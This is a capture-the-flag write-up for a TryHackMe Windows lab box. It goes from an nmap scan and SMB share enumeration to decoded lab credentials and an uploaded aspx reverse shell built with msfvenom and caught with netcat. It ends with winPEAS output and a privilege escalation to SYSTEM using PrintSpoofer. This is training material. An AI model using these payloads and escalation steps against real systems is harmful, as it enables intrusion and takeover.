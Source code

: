 ```yaml
---
layout: post
title: Box - Relevant
published: true
---
```


Penetration Testing Challenge

[https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

![](/assets/matrix.webp)

* * *

## Task 1 - Pre-Engagement Briefing 

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

##  Step 1. Obtain System Information

```shell
Nmap 7.92 scan initiated Fri Jun 24 09:16:14 2022 as: nmap -sC -sV -T4 -p80,135,139,445,3389,49663,49667,49669 -oN nmap_second 10.10.89.5
Nmap scan report for 10.10.89.5
Host is up (0.19s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-24T16:17:53+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-24T16:17:13+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-24T16:17:15
|_  start_date: 2022-06-24T16:07:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-24T09:17:16-07:00
```

- ``smbclient -L \\\\10.10.127.174\\`` list smb shares
- ``smbclient \\\\10.10.127.174\\nt4wrksv`` get password.txt file


- Qm9iIC0gIVBAJCRXMHJEITEyMw== ``Bob - !P@$$W0rD!123``
- QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk ``Bill - Juw4nnaM4n420696969!$$$``

##  Gobuster

- gobuster dir -u http://10.10.196.58:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

gobuster dir -u http://10.10.196.58:49663/nt4wrksv -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

So we found that ``nt4wrksv`` is available on port 49663/nt4wrksv we should be able to upload a reverse shell there and execute it. 

That doesnt seem to work with php files...

Looking up common IIS web application language we can see the common languages are ASP.NET, ISAPI or CGI.

- create msfvenom payload ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -f aspx > shell.aspx`` and put on the SMB share
- startup netcat listener ``nc -nvlp 7777``
- access the payload we put onto the SMB share to start us a reverse shell. Lets also put on a winpeas to execute now that we're on the system to enumerate some more.
- we can find our uploaded winpead @ c:\inetpub\wwwroot\nt4wrksv

```shell
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: Relevant
    ProductName: Windows Server 2016 Standard Evaluation
    EditionID: ServerStandardEval
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 1
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: False
    Current Time: 6/26/2022 1:11:50 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB3192137, KB3211320, KB3213986, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1607 (14393)
 [*] Enumerating installed KBs...

[!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                                                        
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)

```

1. ``whoami /priv``
2. https://github.com/itm4n/PrintSpoofer
3. ``wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`` and put onto SMB share.
4. travel to c:\inetpub\wwwroot\nt4wrksv and ``PrintSpoofer64.exe -i -c cmd``
5. become system admin :smile:

##   Answer the questions below

Travel to Bob's desktop to access his flag

![](/assets/relevant01.png)

After getting Administrator privileges access the admin desktop for the flag.

![](/assets/relevant02.png)

* * *



